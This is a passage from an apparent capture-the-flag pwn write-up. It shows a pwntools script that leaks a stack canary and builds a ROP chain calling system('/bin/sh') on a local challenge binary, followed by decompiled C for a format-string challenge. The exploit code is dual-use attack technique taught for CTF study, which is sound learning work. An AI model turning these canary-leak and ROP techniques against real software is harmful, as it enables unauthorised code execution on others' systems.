 ```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
io = process('./pwn')
elf = ELF('./pwn')

rdi = 0x40138B

io.recvuntil('plz?')
io.send(b'a'*0x19)
io.recvuntil(b'a'*0x19)  # 覆盖到 canary 的第一个字节
canary = b'\0'+io.recv(7)  # canary 的第一个字节一定是 \0
payload = flat([
    b'a'*0x18,
    canary,
    0,
    rdi+1,  # retn 用于栈对齐
    rdi,
    elf.search(b'/bin/sh').__next__(),
    elf.plt.system
])
io.recvuntil('right?')
io.send('y')
io.recvuntil('plz.')
io.send(payload)
io.interactive()

```

### [Week2] fmt1

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[256]; // [rsp+0h] [rbp-110h] BYREF
  int v5; // [rsp+100h] [rbp-10h] BYREF
  int v6; // [rsp+104h] [rbp-Ch]
  int *v7; // [rsp+108h] [rbp-8h]

  bufinit(argc, argv, envp);
  v7 = &v5;
  v6 = 0x2023;
  v5 = 0x20FF;
  printf("Input your content: ");
  read(0, buf, 0x100uLL);
  printf(buf);
  if ( v6 == v5 )
  {
    puts("Congratulations! Now here is your shell!");
    puts("And welcome to format string world!");
    system("/bin/sh");
  }
  return 0;
}
```
